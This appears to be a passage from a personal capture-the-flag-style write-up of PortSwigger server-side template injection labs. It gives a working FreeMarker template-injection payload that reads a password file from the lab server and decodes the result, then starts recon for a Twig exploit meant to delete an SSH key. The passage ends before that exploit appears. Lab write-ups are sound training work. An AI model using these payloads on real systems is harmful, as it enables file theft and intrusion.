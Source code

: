 try:
```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```
get:
```
55 49 107 98 57 106 103 120 52 110 109 115 99 118 108 53 119 113 49 109 

```
encode to Ascii (easiet with CyberCheff: https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,'')&input=NTUgNDkgMTA3IDk4IDU3IDEwNiAxMDMgMTIwIDUyIDExMCAxMDkgMTE1IDk5IDExOCAxMDggNTMgMTE5IDExMyA0OSAxMDk)

Submit solution:
71kb9jgx4nmscvl5wq1m

# Lab solved

payload analsys:
```js
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```


# [7. ***Lab: Server-side template injection with a custom exploit***](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-a-custom-exploit)

This lab is vulnerable to server-side template injection. To solve the lab, create a custom exploit to delete the file /.ssh/id_rsa from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 


1. log in and explore site. 

in comment try to comment {7*7} see error:
```
PHP Fatal error: Uncaught Twig_Error_Syntax:...
... 
```
we are dealing with **twig** syntax


in upload avater option upload valid file and try to upload not valid file - notice:
```
PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: text/markdown in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar('/tmp/SQLI Labs ...', 'text/markdown')
#1 {main}
  thrown in /home/carlos/User.php on line 28
```

